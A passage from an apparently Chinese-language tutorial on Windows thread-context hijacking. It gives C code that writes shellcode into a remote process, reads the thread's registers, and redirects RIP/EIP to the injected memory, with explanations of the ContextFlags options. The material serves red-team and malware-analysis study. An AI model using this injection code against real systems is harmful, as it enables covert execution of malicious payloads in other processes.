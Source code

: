 ```c
    remoteMemory,
    shellcode,
    shellcode_size,
    &bytesWritten
);
```

### 步骤 4: 获取线程上下文

```c
#ifdef _WIN64
    CONTEXT ctx = {0};
    ctx.ContextFlags = CONTEXT_FULL;  // 获取所有寄存器

    GetThreadContext(pi.hThread, &ctx);

    printf("原始 RIP: 0x%llX\n", ctx.Rip);
#else
    CONTEXT ctx = {0};
    ctx.ContextFlags = CONTEXT_FULL;

    GetThreadContext(pi.hThread, &ctx);

    printf("原始 EIP: 0x%lX\n", ctx.Eip);
#endif
```

**ContextFlags 选项：**
- `CONTEXT_CONTROL`: 控制寄存器（Rip/Eip, Rsp/Esp, SegCs, EFlags）
- `CONTEXT_INTEGER`: 整数寄存器（Rax-R15 / Eax-Edi）
- `CONTEXT_SEGMENTS`: 段寄存器
- `CONTEXT_FULL`: 上述所有
- `CONTEXT_ALL`: 包括调试寄存器

### 步骤 5: 修改指令指针

```c
#ifdef _WIN64
    // x64: 修改 RIP 寄存器
    ctx.Rip = (DWORD64)remoteMemory;
    printf("新 RIP: 0x%llX\n", ctx.Rip);
#else
    // x86: 修改 EIP 寄存器
    ctx.Eip = (DWORD)remoteMemory;
    printf("新 EIP: 0x%lX\n", ctx.Eip);
#endif
```

**原理：**
- CPU 的指令指针寄存器（RIP/EIP）存储下一条要执行的指令地址
- 修改它就能改变线程的执行流程
- 当线程恢复时，会从新的地址开始执行
